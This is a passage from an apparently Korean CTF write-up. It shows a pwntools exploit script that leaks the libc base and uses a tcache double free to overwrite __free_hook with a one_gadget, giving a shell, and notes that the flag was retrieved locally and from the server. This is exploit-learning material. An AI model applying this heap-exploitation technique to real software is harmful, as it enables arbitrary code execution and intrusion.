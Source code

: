 ```python
libc_base = leak_stdout - libc.symbols['_IO_2_1_stdout_']
print('libc base : ',hex(libc_base))

offset_IO_2_1_stdout = libc.symbols['_IO_2_1_stdout_']

free_hook = libc_base + libc.symbols['__free_hook']
one_gadget = libc_base + 0x4f432

alloc(64, b'AAAA')
free()

edit(b'A'*8 + b'\x00')
free()

alloc(64, p64(free_hook))
alloc(64, b'A'*8)
alloc(64, p64(one_gadget))
free()

p.interactive()
```

이제 이걸 날려보면  

<br>

<img width="1343" height="655" alt="image" src="https://github.com/user-attachments/assets/5ff95c9e-8082-4954-b2f0-7cfd9cc52409" />


플래그가 잘 나온다.  

서버에도 날려보면?  

<br>

<img width="1241" height="693" alt="image" src="https://github.com/user-attachments/assets/de872959-c858-42e7-a2b7-7fdd21cbd919" />

역시 잘 나온다.   

이때까지 푼 문제들 중에서 젤 난이도가 높았던 문제였다.  
시간도 많이 걸렸고, 중요한 내용들이니 기억해두자. 
